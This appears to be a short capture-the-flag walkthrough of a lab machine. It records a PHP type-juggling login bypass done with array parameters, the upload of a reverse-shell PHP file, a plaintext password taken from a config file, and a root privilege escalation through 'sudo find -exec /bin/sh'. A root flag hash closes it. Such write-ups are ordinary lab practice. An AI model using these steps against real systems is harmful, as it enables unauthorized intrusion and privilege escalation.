 ```
Base - 10.10.10.48
```

#Ports Open - 80,22

#Details of Ports
>22		ssh
>80		http

#Findings + Exploitation
>found s website running on port 80
>found a login page on url
	http://<ip>/login/login.php
>checked the login directory and found a "login.php.swp"
>ran strings on it to find php code in reverse at the end
>found a exploit to bypass "=="
>used burp to intercept
>changed
	username=adminpassword=admin
		TO
	username[]=admin&password[]admin
>got in admin section
>uploaded a revshel.php
>found a irectory "uploaded"
>activated the rev shell
>inside the machine looked at the config.php
>found a password for john
	thisisagoodpassword
>ran sudo -l
>find can be run through root
>exploit found on gtfo bins
	sudo find . -exec /bin/sh \; -quit
>got ROOT!!
	51709519ea18ab37dd6fc58096bea949